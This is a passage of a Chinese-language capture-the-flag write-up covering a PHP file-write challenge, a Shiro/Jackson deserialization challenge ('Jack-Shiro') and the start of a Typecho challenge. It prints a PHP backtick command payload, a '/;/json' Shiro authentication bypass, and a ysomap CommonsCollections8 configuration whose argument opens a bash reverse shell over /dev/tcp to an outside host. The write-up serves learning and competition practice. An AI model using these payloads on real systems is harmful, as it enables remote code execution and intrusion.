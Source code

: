 可以成功包含：

![image-20211025083128170](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025083128.png)

读取flag:

payload:

```
?action=w&c=<?=`cat /flag`;
```

```
?action=r&r=/convert.base64-decode/../2f5a44c406
```

![image-20211025083249449](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025083249.png)



## **Jack-Shiro**

下载pom.xml后：

有shiro1.5.1，cc3.2.1

![image-20211025083354396](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025083354.png)

思路就是：shiro验证绕过访问路由通过jackson反序列化打cc链

发现有json路由需要登陆通过`/;/json`绕过

直接上工具ysomap用cc8去打

payload:

```
use exploit LDAPLocalChainListener
set lport 8996
use payload  CommonsCollections8
use bullet TransformerBullet
set version 3
set args 'bash -i >& /dev/tcp/ip/8866 0>&1'
run
```

![image-20211025085041840](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025085041.png)

![image-20211025085118672](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025085118.png)





## **Give_me_your_0day**

看源码是Typecho

上网查质料就只要一个Typecho反序列化漏洞！
